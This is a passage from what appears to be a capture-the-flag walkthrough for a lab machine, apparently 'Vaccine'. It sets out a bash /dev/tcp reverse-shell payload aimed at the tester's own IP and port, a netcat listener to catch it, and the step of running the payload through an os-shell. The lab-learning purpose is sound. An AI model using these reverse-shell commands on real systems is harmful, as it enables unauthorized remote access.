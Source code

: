 Copy the payload, it should look like this:

```
sh -i >& /dev/tcp/{your tun0 ip}/{port you have chosen} 0>&1
```

### Netcat

Now is time to set up the `netcat`.

Type in new tab:

```
nc -lvnp {port you have chosen}
```

![netcat](./Screenshots/vaccinenetcat.png)

### Execute reverse shell

We have to modify a little bit our `payload` to execute it.

It should be like this:

```
bash -c "sh -i >& /dev/tcp/{your tun0 ip}/{port you have chosen} 0>&1"
```

When it's done, type it into our `os-shell`.

When it asks you about anything just press `Enter`.

![revshell](./Screenshots/vaccinerev3.png)

Looks like it worked. Now is time to check our tab with `netcat`.
